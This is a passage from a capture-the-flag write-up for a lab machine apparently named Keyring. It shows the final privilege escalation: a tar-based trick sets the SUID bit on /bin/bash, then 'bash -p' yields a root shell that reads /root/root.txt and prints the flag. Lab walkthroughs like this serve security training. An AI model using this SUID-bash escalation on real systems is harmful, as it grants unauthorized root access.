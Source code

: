 Now we can check to see if `/bin/bash` has `suid` set.

```
john@keyring:~$ ./compress 
/bin/tar: archive.tar: file is the archive; not dumped
john@keyring:~$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1113504 Apr  5  2018 /bin/bash
```

It does! Now we can execute `/bin/bash` to get a `root shell` and `root.txt`!

```
john@keyring:~$ /bin/bash -p
bash-4.4# uname -a; whoami; cat /root/root.txt
Linux keyring 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
root
[ Keyring - Rooted ]
---------------------------------------------------
Flag : VEhNe0tleXIxbmdfUjAwdDNEXzE4MzEwNTY3fQo=
---------------------------------------------------
by infosecarticles with <3
```
